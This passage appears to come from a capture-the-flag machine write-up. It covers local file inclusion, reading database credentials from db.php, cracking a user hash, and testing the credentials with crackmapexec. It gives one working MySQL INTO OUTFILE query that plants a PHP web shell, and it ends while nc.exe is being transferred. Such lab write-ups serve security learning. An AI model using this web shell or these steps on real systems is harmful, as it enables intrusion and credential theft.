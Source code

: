 <img src="https://i.imgur.com/rBZHZVv.png"/>

<img src="https://i.imgur.com/hoHn1Rm.png"/>

At the bottom we can see why we were able to include local files, as it's using `include` on GET parameter and accepting files. secondly we see a comment for Eric which talks about setting up database connection, on trying to fuzz for php files, we get `db.php`

<img src="https://i.imgur.com/BuvetNm.png"/>

From here we can get credentials to mysql

<img src="https://i.imgur.com/WkHXFoE.png"/>

<img src="https://i.imgur.com/suIMVgB.png"/>
With these credentials we can login to mysql

<img src="https://i.imgur.com/lRo2kbO.png"/>

With `news` database, we can query for `users` table

<img src="https://i.imgur.com/Lg6KCZV.png"/>

Here we can find three usernames, out of which `rsmith`'s hash was cracked

<img src="https://i.imgur.com/ZnavjbQ.png"/>

On trying to crack these hashes with Crackstation

<img src="https://i.imgur.com/8U7eBPg.png"/>

We can check if these credentials works on the target machine with `crackmapexec`

<img src="https://i.imgur.com/hzdjViw.png"/>

Checking the shares, there's wasn't any interesting share

<img src="https://i.imgur.com/KvLSpN5.png"/>

## Un-Intended (SYSTEM)

Going back to mysql, since we are root user, we may have file and write privilege, we can create a php file to execute system commands through GET parameter

```mysql
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```

<img src="https://i.imgur.com/RO43VvN.png"/>

<img src="https://i.imgur.com/WlzHmAu.png"/>

Transferring `nc.exe` by setting up a python server to host the file
